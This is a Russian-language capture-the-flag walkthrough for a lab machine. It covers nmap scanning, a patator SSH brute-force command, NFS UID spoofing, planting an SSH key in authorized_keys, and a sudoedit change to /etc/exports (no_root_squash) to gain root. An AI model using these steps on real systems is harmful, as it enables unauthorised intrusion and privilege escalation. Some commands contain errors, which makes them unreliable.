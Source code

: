 1. Сканирование сеть nmap 192.168.0.1/24 -sP для определение айпи адреса NIX
2. Запускаем nmap 192.168.0.23 -Pn -p- --open -sVC (не рекомендуется в начале сканирования):

3. Для правильно работы необходимо изучить все найденные сервисы, записать и искать "низко висящие фрукты"(легкий способ доступа)
4.  Запускаем брутфорс ssh
``` bash
patator ssh_login host=192.168.0.23 user=/usr/share/seclists/Usernames/top-usernames-shortlist.txt  password=FILE0 0=Desktop/YAWR-master/brute/passwords/realyBest.txt -x ignore:mesg='Authentication failed.'

```
5. Получаем [[Задачи Cyber ED/Vuln - NIX/Пароли + логины|Пароли + логины]]
6. Заходим ssh
7. проверяем директорию 
8. забираем первый флаг
9. проверяем /etc/passwd
10. Видим другого пользователя vulnix с ID 2008
11. Проверяем /etc/exports (так как есть nfs(расшаренная папка)) чтобы найти расшаренные папки
12.  Выходим из ssh и логинимся под рутом в основной системе
13. Создаем пользователя vulnix с ID 2008
14. Создаем папку для монтирования расшаренной папки mkdir /tmp/share
15. Монтируем расшаренную папку к себе 
``` bash
mount -t nfs 192.168.0.23:/home/vulnix /tmp/share
umount -l /tmp/share) # размонтировать директорию 
```
16. заходим под пользователем vulnix - su vulnix
17. В папке share прописываем ls и забираем второй флаг
18. Заходим обратно под рут и создаем rsa ключ ssh 
```
ssh-keygen -t rsa
```
19. Копируем публичный ключ (.pub)
20. заходим под vulnix (su vulnix)
21. создаем директорию share/.ssh && cd .ssh
22. копируем ключ 
```
cat ~/.ssh/id_rsa.pub >> /tmp/share/root/.ssh/authorized_keys
echo 'key' > .ssh/authorized_keys
```
21.  Заходим по ssh под пользователем vulnix
```
ssh vulnix@192.168.0.23 -o 'PubkeyAcceptedKeyTypes +ssh-rsa'
```
22. прописываем sudo -l
23.  видим что можно использовать sudoedit /etc/exports
24. прописываем / *(rm, no_root_squash)
25. сохраняем файл и перезапускаем систему
26. создаем новую папку /tmp/shr и монтриуем в нее /
27. заходим в рут и берем последний флаг 
